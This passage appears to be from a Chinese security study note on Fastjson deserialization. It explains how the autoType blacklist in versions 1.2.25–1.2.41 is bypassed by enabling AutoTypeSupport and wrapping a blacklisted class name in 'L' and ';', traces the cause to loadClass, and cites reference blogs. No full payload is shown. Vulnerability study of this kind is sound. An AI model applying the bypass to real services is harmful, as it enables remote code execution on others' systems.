

#### 3. fastjson 1.2.25 - 1.2.41 绕过

提前配置 AutoTypeSupport 为 true

`ParserConfig.getGlobalInstance().setAutoTypeSupport(true);`

如果要使用黑名单的类，在黑名单类前面 + L 结尾 ＋ ; 绕过。

原因在 loadClass 中


**参考资料**

[Java反序列化Fastjson篇01-FastJson基础 | Drunkbaby's Blog](https://drun1baby.top/2022/08/04/Java反序列化Fastjson篇01-Fastjson基础/)

[Java反序列化Fastjson篇02-Fastjson-1.2.24版本漏洞分析 | Drunkbaby's Blog](https://drun1baby.top/2022/08/06/Java反序列化Fastjson篇02-Fastjson-1-2-24版本漏洞分析/)

[LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)


